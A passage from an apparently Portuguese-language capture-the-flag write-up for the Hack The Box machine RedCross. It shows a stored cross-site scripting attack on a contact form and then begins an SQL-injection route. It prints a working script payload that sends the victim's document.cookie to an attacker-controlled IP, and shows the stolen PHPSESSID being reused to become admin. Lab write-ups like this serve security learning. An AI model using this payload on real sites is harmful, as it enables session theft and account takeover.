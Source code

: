 Um repositório do GitHub que mostra muito bem, explica com exemplos de payloads já prontos é este (https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_web8.png)

A ideia geral é essa, eu consigo inserir códigos dentro de formulários, e é isso que vamos fazer. A página que está vulnerável é a `https://intra.redcross.htb/?page=contact`

Então acessamos ela

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_web7.png)

O payload que iremos utilizar para PoC (ver se está realmente vulnerável) é este

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_web9.png)

`<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>`

Adaptamos para nossa máquina

`<script>new Image().src="http://10.10.16.4/cookie.php?c="+document.cookie;</script>`

O campo vulnerável é o último campo, caso tentamos fazer o ataque nos outros campos o resultado é esse

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_web10.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_web11.png)

Então agora vamos fazer no campo certo

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_web13.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_web14.png)

E recebemos no terminal

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_web12.png)

`PHPSESSID=414oqpjp8lbuj1dm5v4mahtrm5`

Trocamos no site o PHPSESSID e viramos admin na página

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_web15.png)

### 2º Caminho - Cookie do login (SQLInjection)

O outro modo que temos para conseguir acesso de administrador no painel é através da criação de um usuário comum e a partir disso identificar o ponto de sqlinjection em um campo e extrair as informações

Então vamos lá, primeiro vamos seguir os passos que estavam no PDF para criação de um usuário

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_web16.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_web17.png)
